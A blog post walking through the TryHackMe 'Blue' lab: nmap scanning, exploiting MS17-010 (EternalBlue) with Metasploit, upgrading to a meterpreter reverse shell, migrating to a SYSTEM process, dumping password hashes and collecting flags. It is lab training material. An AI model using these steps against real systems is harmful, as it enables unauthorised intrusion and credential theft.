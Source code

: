 ```yaml
---
title: "BLUE"
date: 2021-08-28 
img_path: ../../assets/img/Posts/Blue
categories: [Tryhackme, Easy]
tags: [metasploit, eternal blue, nmap]     # TAG names should always be lowercase
---
```


> This was my first write-up which I posted on [Medium](https://medium.com/@YrnCollo/tryhackme-blue-4aff45201ca9) on **Aug 28, 2021**.

Hello Everyone!
I’m Collins, a security researcher. This is an article on how to exploit blue a machine on [TryHackMe](https://tryhackme.com/dashboard) made by [DarkStar7471](https://tryhackme.com/p/DarkStar7471).
![image](001.png)_Title page_
## DEPLOYING THE MACHINE
To connect to TryHackMe you will need to download the `OpenVpn` and connect to their VPN. Once connected to their VPN start the machine and we are ready to exploit it. Once you have deployed the machine you would be given an IP address and one hour time (but you can add one hour) as shown in the figure bellow.
![starting machine](002.png)_fig 1.0_
## TASK 1: RECON

We shall start our recon by scanning the machine. The command we shall use is `nmap -sV -A <TARGET_IP>`

![nmap](003.png)_fig 2.0_

We can manually count the number of ports under 1000 on our nmap scan which is 3.

To know what is this machine vulnerable to we shall run `nmap <TARGET_IP>-script vuln` and the result should like as figure 3.0

![fig 3](004.jpeg)_fig 3.0_

As we can clearly see the target is vulnerable to ms17–010

## TASK 2: GAINING ACCESS

Now the fun part is here where we shall gain full access to our target.

The first thing to do is to launch `Metasploit`. This is done by writing `msfconsole` to the terminal as in figure 4.0

![fig 4](005.png)_fig 4.0_

Now we shall use the search feature to search for `ms17_010_` which we had earlier found that the target is vulnerable to. The full path of the exploit as found on the search is `exploit/windows/smb/ms17_010_eternalblue` as shown in the figure 5.0

![fig 5](006.png)_fig 5.0_

Use the show options and see what is required.Set `RHOST` to your target IP.(shown in figure 6.0)
![fig 6](007.png)_fig 6.0_

With that done, run the exploit… 

![fig 6.1](008.png)_fig 6.1_

We have to background the shell by `CTRL + Z` or by typing `background`.

![fig 6.2](009.png)_fig 6.2_

## TASK 3: ESCALATE

Alright, it’s now time to upgrade our shell to meterpreter. We shall find our upgrade module by searching for `shell_to_meterpreter` as shown in figure 7.1

![fig 7.0](010.png)_fig 7.0_

Select the `post/multi/manage/shell_to_meterpreter` by the use of `use` command as in figure 7.1

![fig 7.1](011.png)_fig 7.1_

Set `LHOST <Your_IP>`

![fig 7.2](012.png)_fig 7.2_

We use `sessions -i` command to see the current session

![fig 7.3](013.png)_fig 7.3_

We shall use the `run` command to get the meterpreter shell.

![fig](014.png)

Once again use the sessions -i command to see the current session and you’ll notice we have meterpreter shell as in figure 7.4

![fig 7.4](015.png)_fig 7.4_

Now we shall use `set SESSION 2` and start interaction with it.

![fig](016.png)_fig 7.5_

Since we have already connected through a meterpreter session to the target machine we can escalate privileges by the using the command getsystem. Use the `shell` command and run `whoami` then background the session.

![fig](017.png)

List all the process by the command `ps` and migrate to a process that is running at NT AUTHORITY\SYSTEM
To migrate we can use `migrate -N (name_of_the_process)` OR `migrate -P (process_ID)`

![fig](018.png)

## TASK 4: CRACKING

With our elevated meterpreter shell, run the command `hashdump` which will dump all of the passwords on the machine as long as we have the correct privileges.

![hashdamp](019.jpeg)

## TASK 5: FINDING FLAGS

**FLAG 1**

Flag one is located on the root of the machine in which is `C:/`

cat flag1.txt

![flag 1](020.png)_flag 1_

**FLAG 2**

We shall search for sam location on windows which is `C:\Windows\System32\config`

cat flag2.txt

![flag 2](021.png)_flag 2_

**FLAG 3**

We shall use the search function to search for flag3
```
search -f flag*.txt
cat c:\\Users\\Jon\\Documents\\flag3.txt
```
\#THANKS
